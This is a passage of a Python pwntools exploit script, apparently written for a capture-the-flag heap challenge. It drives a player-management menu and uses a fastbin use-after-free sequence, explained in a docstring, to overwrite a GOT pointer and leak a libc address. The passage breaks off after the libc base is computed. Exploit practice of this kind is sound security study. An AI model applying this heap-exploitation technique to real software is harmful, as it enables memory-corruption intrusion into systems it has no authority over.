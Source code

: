 ```python
    t.sendline(name)

    t.sendline('0')

    return recvuntil_main_menu(t)

def show_player(t):
    t.sendline('5')
    return recvuntil_main_menu(t)

def delete_player(t, index):
    t.sendline('2')
    t.recvuntil('Enter index: ')
    t.sendline(str(index))

    recvuntil_main_menu(t)

def name_from_address(address):
    address = packing.p32(address)
    return "A"*16 + address[:-1] # the NULL byte will be inserted by the application

def extract_value_from_player_infos(text):
    start = text.index(': ') + 2
    end   = text.index('\n\tA/D')

    return text[start:end]

def setup(t, got, offset):
    '''
    We initiate a dance that allows to build a read/write primitive
    playing with the fastbin chunks: the steps of this dance are

        1. add a player with a name length equal to the struct size
        2. add another player with a name length greater than the struct size
        3. select the first player
        4. remove the first player (index 0)
        5. remove the second player (index 1)
        6. add a new player with name length matching the struct size

    At this point the name field of the selected (and free) player points
    to the last 4 bytes of the string containing the name of the unique player.

    For now it's not clean, I mean, you have an unsorted chunk to be handled to
    restart a new dance ;)
    '''
    log.info('trying to overwrite got @0x%x' % got)

    add_player(t, "A"*15) # 16 - null byte
    add_player(t, "B"*30)
    select_player(t, 0)
    delete_player(t, 0)
    delete_player(t, 1)
    add_player(t, name_from_address(got))

    output = show_player(t)

    log.debug(output)

    value = extract_value_from_player_infos(output)
    log.debug(repr(value))
    address_libc = packing.u64(value + '\x00\x00')
    log.info('libc function address 0x%x' % address_libc)
    address_libc_base = address_libc - offset
```